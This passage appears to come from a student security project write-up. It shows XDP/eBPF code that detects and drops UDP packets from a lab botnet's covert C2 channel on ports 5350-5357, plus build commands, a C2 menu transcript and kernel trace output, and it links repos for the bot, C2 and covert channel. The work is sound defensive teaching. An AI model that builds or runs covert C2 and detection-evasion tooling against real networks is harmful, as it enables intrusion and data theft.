struct iphdr *iph = NULL;
if (eth->h_proto == htons(ETH_P_IP)) {
	iph = (data + sizeof(struct ethhdr));
	if (unlikely(iph + 1 > (struct iphdr *)data_end)) {
		return XDP_DROP;
	}
} else { // Skip non-IP
	return XDP_PASS;
}

// Skip non-UDP
if (!iph || iph->protocol != IPPROTO_UDP) {
	return XDP_PASS;
}

// Parse UDP
struct udphdr *udph = NULL;
udph = (data + sizeof(struct ethhdr) + (iph->ihl * 4));
if (udph + 1 > (struct udphdr *)data_end) {
	return XDP_DROP;
}
```

With the UDP header exposed, we can check our port range and print to the kernel tracepipe:

```c
if (udph->source == htons(5350) ...truncated... udph->source == htons(5357)) {
    bpf_printk("Detected C2 packet from %d:%d\n", iph->saddr, ntohs(udph->source));
	return XDP_DROP;
}

return XDP_PASS;
```

If a packet matches our filter, we return the XDP_DROP status to tell the NIC to drop the packet without forwarding it to the kernel. This removes load from the kernel, but also removes kernel (and therefore userspace) visibility into the network stream.

To set up our offload IDS on a VM, we begin by copying our xdp-ids source to the VM:

```bash
# Install build dependencies
$ sudo apt install -y build-essential libelf-dev clang git llvm
<truncated>

# Update libbpf submodule
$ git submodule update --init
Submodule 'libbpf' (https://github.com/libbpf/libbpf.git) registered for path 'libbpf'
Cloning into '/home/tech1/xdp-router/libbpf'...
Submodule path 'libbpf': checked out '7fc4d5025b22da2fd1a3f767b2973b7f28d21758'

# Running "make" first compiles our XDP program (including eBPF expressions) to LLVM intermediate bytecode with clang, then uses LLVM's llc to compile it into a ELF object that can be loaded onto the NIC
$ make
make -C libbpf/src clean
make[1]: Entering directory '/home/tech1/xdp-ids/libbpf/src'
rm -rf *.o *.a *.so *.so.* *.pc ./sharedobjs ./staticobjs
make[1]: Leaving directory '/home/tech1/xdp-ids/libbpf/src'
rm -rf build/
mkdir -p build/
clang -I libbpf/src -D__BPF__ -O2 -emit-llvm -c -o build/kern_ids.bc main.c
llc -march=bpf -filetype=obj -o build/kern_ids.o build/kern_ids.bc
```

LLVM emits an ELF object that can be loaded into the NIC with netlink:


```bash
$ sudo ip link set dev ens18 xdp obj kern_ids.o
```

At this point our program is running on the NIC and has been assigned an XDP program ID by the kernel:

```bash
$ ip link show dev ens18
2: ens18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 xdp/id:106 qdisc fq_codel state UP group default qlen 1000
    link/ether da:34:2e:85:04:7f brd ff:ff:ff:ff:ff:ff
    altname enp0s18
```

With the offload IDS program loaded, we're ready to execute a C2 command and monitor the kernel tracepipe:

```
$ sudo python3 c2.py
initializing communications...
                                    C2 Interface v0.1                                     
------------------------------------------------------------------------------------------

Main Menu:

1) Check Network Status
2) Query Host Information
3) Run Command
4) Danger Zone
5) Exit

Warning: network status may be out of date, please re-test connections.

 Please Select an Option: 1
Sending command, please wait...
sent
```

Monitoring the kernel tracepipe shows our that our covert channel packets were detected correctly:

```
$ sudo cat /sys/kernel/debug/tracing/trace_pipe
          <idle>-0       [001] d.s..  5722.470708: bpf_trace_printk: Detected C2 packet from 1677830336:5350
          <idle>-0       [001] d.s..  5722.502635: bpf_trace_printk: Detected C2 packet from 1677830336:5352
          <idle>-0       [001] d.s..  5722.534885: bpf_trace_printk: Detected C2 packet from 1677830336:5354
          <idle>-0       [001] d.s..  5722.566746: bpf_trace_printk: Detected C2 packet from 1677830336:5356
          <idle>-0       [001] d.s..  5722.978676: bpf_trace_printk: Detected C2 packet from 1677830336:5351
^C
```

IP addresses are displayed in network byte order; converting 1677830336 to host bit order and to an IP address results in 192.168.1.100, the IP address of our C2 server.

## Source Code

All our code for this project is available from the [CS4404-Mission3](https://github.com/cs4404-mission3) GitHub organization.

- [ids](https://github.com/CS4404-Mission3/ids): Adaptive userspace IDS
- [bot](https://github.com/CS4404-Mission3/bot): Bot, C2, and covert channel
- [xdp-ids](https://github.com/CS4404-Mission3/xdp-ids): XDP offload IDS
- [trafficsim](https://github.com/CS4404-Mission3/trafficsim): Generate cover traffic for IDS testing

# Conclusion
The struggle between malware and IT security is a constant arms race in detection and evasion technologies. The bot and c2 infrastructure showcased in this project demonstrated a covert channel communication method that would be able to evade standard deep packet inspection and possibly even NetFlow systems by transmitting legitimate packets and specific times to encode information. While this proves that IDS implementations are not infallible, it also shows their effect on malware. It forces the botnet to use an extremely slow transmission rate to avoid detection. This would make data exfiltration on a large scale very tedious and give network security professionals ample time to detect the intrusion through other means.